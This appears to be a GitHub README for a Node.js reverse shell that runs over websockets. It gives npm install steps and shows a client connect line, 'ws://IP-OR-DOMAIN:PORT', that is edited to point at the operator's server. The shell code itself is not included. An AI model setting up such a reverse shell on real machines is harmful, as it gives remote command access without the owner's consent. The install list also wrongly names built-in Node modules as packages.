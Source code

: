 
# Reverse shell using websocket (node)

NodeJS reverse shell script using websocket npm to interact between client & server. 

## Installation

Use the package manager [npm](https://nodejs.org/en/download/) to install some packages.

```bash
npm install websocket
npm install child_process
npm install http
npm install readline-sync
```

## Usage

edit the last line of client.js by adding your ip adress or using localhost if both of them are on the same network.
```javascript
client.connect('ws://IP-OR-DOMAIN:PORT', 'echo-protocol');
```
editing server.js for the connection port at port variable line :
```javascript
let port = 8080;
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
